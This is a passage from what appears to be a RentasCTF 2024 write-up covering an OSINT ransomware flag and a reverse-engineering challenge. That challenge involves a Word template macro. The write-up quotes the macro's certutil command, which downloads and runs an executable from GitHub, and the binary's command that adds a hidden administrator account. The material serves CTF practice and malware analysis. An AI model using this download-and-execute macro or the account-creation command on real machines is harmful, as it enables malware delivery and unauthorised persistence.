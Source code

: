 Reading the chat, it seems that the flag is the mirror link of their onion page. This can be obtained in many sources like [this](https://github.com/fastfire/deepdarkCTI/blob/main/ransomware_gang.md).

PS: Random stuff I encountered:
* I found out the ransomware also attacked `Indah Water Konsortium` in Malaysia.
* I messaged a random Telegram bot when finding the chat room.

## Resign Letter [Rev]
Flag: `RWSC{p@ss123}`

We are given a weird document template file created by Microsoft Word. When opening it, macros can be found.

![rev1](/assets/posts/rentasctf2024/rev1.png)

Opening the macro named `Test` as shown below provides us with the following code.

![rev2](/assets/posts/rentasctf2024/rev2.png)

```
Shell ("cmd /c certutil.exe -urlcache -split -f https://github.com/fareedfauzi/Adv_Sim/raw/main/lenovo.exe %temp%\lenovo.exe")
Shell ("cmd /c %temp%\lenovo.exe")
```

Downloading the mallicious binary and using strings, we can see that it executes:
```
cmd.exe /c net user f14g cEBzczEyMw== /ADD && net localgroup Administrators f14g /ADD
```

It tries to add the user `f14g` with password `cEBzczEyMw==` to the local machine and add it to the `Administrators` group. Decode the password with base64 for the flag.

## Bring Your Own Script [Web]
Flag: `RWSC{J4CKP0T}`
